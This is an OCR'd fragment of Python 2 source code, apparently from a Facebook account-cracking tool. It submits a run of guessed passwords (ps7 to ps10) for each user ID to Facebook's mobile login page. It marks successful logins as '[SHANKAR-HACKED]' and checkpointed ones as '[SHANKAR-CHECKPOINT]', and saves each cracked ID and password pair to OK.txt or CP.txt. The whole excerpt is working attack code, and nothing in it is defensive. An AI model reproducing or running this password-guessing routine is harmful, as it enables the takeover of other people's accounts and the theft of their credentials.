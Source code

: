                                     sp = data.content
                                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                        print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps7 + '\x1b[0;97m'
                                        ok = open('OK.txt', 'a')
                                        ok.write(uid + '|' + ps7 + '\n')
                                        ok.close()
                                        oks.append(uid + ps7)
                                    elif 'checkpoint' in sp:
                                        print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps7 + '\x1b[0;97m'
                                        cp = open('CP.txt', 'a')
                                        cp.write(uid + '|' + ps7 + '\n')
                                        cp.close()
                                        cps.append(uid + ps7)
                                    else:
                                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                                            'email': uid,
                                            'pass': ps8,
                                            'login': 'submit' })
                                        sp = data.content
                                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                            print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps8 + '\x1b[0;97m'
                                            ok = open('OK.txt', 'a')
                                            ok.write(uid + '|' + ps8 + '\n')
                                            ok.close()
                                            oks.append(uid + ps8)
                                        elif 'checkpoint' in sp:
                                            print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps8 + '\x1b[0;97m'
                                            cp = open('CP.txt', 'a')
                                            cp.write(uid + '|' + ps8 + '\n')
                                            cp.close()
                                            cps.append(uid + ps8)
                                        else:
                                            data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                'email': uid,
                                                'pass': ps9,
                                                'login': 'submit' })
                                            sp = data.content
                                            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps9 + '\x1b[0;97m'
                                                ok = open('OK.txt', 'a')
                                                ok.write(uid + '|' + ps9 + '\n')
                                                ok.close()
                                                oks.append(uid + ps9)
                                            elif 'checkpoint' in sp:
                                                print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps9 + '\x1b[0;97m'
                                                cp = open('CP.txt', 'a')
                                                cp.write(uid + '|' + ps9 + '\n')
                                                cp.close()
                                                cps.append(uid + ps9)
                                            else:
                                                data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                    'email': uid,
                                                    'pass': ps10,
                                                    'login': 'submit' })
                                                sp = data.content
                                                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                    print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps10 + '\x1b[0;97m'
                                                    ok = open('OK.txt', 'a')
                                                    ok.write(uid + '|' + ps10 + '\n')
                                                    ok.close()
                                                    oks.append(uid + ps10)
                                                elif 'checkpoint' in sp:
                                                    print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps10 + '\x1b[0;97m'
                                                    cp = open('CP.txt', 'a')